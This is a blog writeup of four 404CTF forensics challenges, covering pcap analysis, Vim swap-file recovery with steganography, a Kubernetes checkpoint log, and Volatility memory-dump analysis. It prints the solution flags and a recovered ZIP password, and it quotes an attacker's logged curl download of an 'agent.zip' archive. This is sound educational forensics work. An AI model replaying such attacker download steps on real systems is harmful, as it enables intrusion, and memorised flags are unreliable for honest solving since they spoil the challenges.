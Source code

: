 ```yaml
---
layout: "@layouts/blog/Layout.astro"
title: "404CTF Writeup - Forensics"
description: "404CTF - Forensics Category: The science of investigating and analyzing evidence"
author: "Majed Abdennadher"
timestamp: 1687283789355
duration: 10
tag: "404CTF"
slug: "forensics"
language: "english"
image: "/static/media/404ctf/event_logo.png"
keywords:
  ["Cybersecurity", "404CTF", "Cryptography"]
links: ["reverse", "binary", "web"]
---
```


### Pêche au livre

Quite an classic challenge. Just open the pcap capture with wireshark. We immediately see an unencrypted HTTP exchange.
Textually, the string `404CTF{...` is not present, so we need to look at the non-textual content: the images:

![](/static/media/404ctf/peche-au-livre-1.png)

The flag is: `404CTF{35SY_W1r35h4rk}`

### Le Mystère du roman d’amour

In this challenge, we are handed Vim swap file `fichier-etrange.swp` and to solve the challenge with must find:
- the PID of the crashed process
- the full path to the file in question (spaces allowed): both the exact form found in the challenge and the extended form beginning with / validate the challenge
- the name of Rouletabille's (a character) friend
- the name of the machine
- the **TEXT** content of the draft of his book (if you have something other than text, keep searching: you need to find text content that clearly resembles the beginning of a novel). Once this content has been found, it will be clearly indicated which part to use to submit the flag (it will be a leet string).

We can use the `file` command to inspect the file given to use and we already find a lot of informations:

```bash
file fichier-etrange.swp
# fichier-etrange.swp: Vim swap file, version 7.4, pid 168, user jaqueline, host aime_ecrire, file ~jaqueline/Documents/Livres/404 Histoires d'Amour pour les bibliophiles au coeur d'artichaut/brouillon.txt
```

Then we can actually recover the file by opening it in vim using `vim -r fichier-etrange.swp`. We notice that the content is really an image, as revealed by the header `\x89PNG\r\n\x1A\n`.
We then recover it by typing `:w restored.png` in vim.

Here is the image we find:
![](/static/media/404ctf/mystere-du-roman-d-amour-1.png)

We can then use `stegsolve` (*instructions in another blog post [here](/blog/404ctfs/stegano/#l%C5%93uvre)*). 
In `stegsolve` we can walk through the different color channels until we stumble upon something interesting: QR code.

![](/static/media/404ctf/mystere-du-roman-d-amour-2.png)

I scanned this image with my phone and I got the following text:

```
Il était une fois, dans un village rempli d'amour, deux amoureux qui s'aimaient...

Bien joué ! Notre écrivaine va pouvoir reprendre son chef-d'oeuvre grâce à vous !
Voici ce que vous devez rentrer dans la partie "contenu du fichier" du flag : 3n_V01L4_Un_Dr0l3_D3_R0m4N
```

Concatenating all of this information, we find the flag: <span class="break-words">`404CTF{168-~jaqueline/Documents/Livres/404 Histoires d'Amour pour les bibliophiles au coeur d'artichaut/brouillon.txt-jaqueline-aime_ecrire-3n_V01L4_Un_Dr0l3_D3_R0m4N}`</span>

### Les Mystères du cluster de la Comtesse de Ségur

A checkpoint-bash_default-bash-2023-05-06T090421Z.zip file is provided.

At first I tried if I can get the flag for free with it:

```bash
grep -ir 404CTF checkpoint-bash_default-bash-2023-05-12T09:04:21Z
```
No chance.

Let's look at the files manually. A rather interesting file `io.kubernetes.cri-o`. In particular `io.kubernetes.cri-o.LogPath` logs everything that has been executed by the container in the Kubernetes cluster.

```bash
cat checkpoint-bash_default-bash-2023-05-12T09:04:21Z/io.kubernetes.cri-o.LogPath
```

On this file, we can see that a user has become root. Close inspection of this file shows that the attacker is executing:

```bash
....  
curl agent.challenges.404ctf.fr -o agent.zip
unzip agent.zip
....
```

Doing the same as they did, when we unzip the `agent.zip` archive, we find a file containing the flag: <span class="break-words">`404CTF{K8S_checkpoints_utile_pour_le_forensic}`</span>.

### Lettres volatiles

In this challenge, we are given an archive file `C311M1N1.zip` containing the home directory of a user on a machine. Let's start by unzipping the file and searching for clues
in various directories such as Images, Downloads, and Documents.

Soon enough, we come across the file `s3cr37.zip` in the `/Documents/perso` folder, which requires a password (this ZIP file contains a suspicious PDF).
Cracking passwords can be time-consuming, so let's explore a more efficient method. While walking through the file system, I found a mysterious file named `C311M1N1-PC-20230514-200525.raw`.
It could be anything but given the challenge's name, there's a chance that it could be a RAM (volatile memory) dump. A widely used tool for analyzing such dumps is [`volatility`](https://github.com/volatilityfoundation/volatility/wiki/Installation).


*[This](https://cyberarms.wordpress.com/2011/11/04/memory-forensics-how-to-pull-passwords-from-a-memory-dump/) is one of the first articles I read about using the tool and also happens to be a good Introduction.*

```bash
# Retrieve some information on the RAM dump
vol.py -f C311M1N1-PC-20230514-200525.raw imageinfo
```

The password could be anywhere, and I spent some time looking in different places until I found it: in the clipboard.

```bash
# Dump the clipboard
vol.py -f C311M1N1-PC-20230514-200525.raw --profile Win7SP1 clipboard
# ... Z1p p4s5wOrd : F3eMoBon8n3GD5xQ ...
```

We can now unzip the secrets archive:

```bash
unzip -P F3eMoBon8n3GD5xQ s3cr37.zip
```

Inside, we find this letter:
![](/static/media/404ctf/lettres-volatiles-1.png)

And at the bottom of it, we discover the flag: <span class="break-words">`404CTF{V0147i1I7y_W1Ll_N3v3r_Wr8_loV3_l3ttEr5}`</span>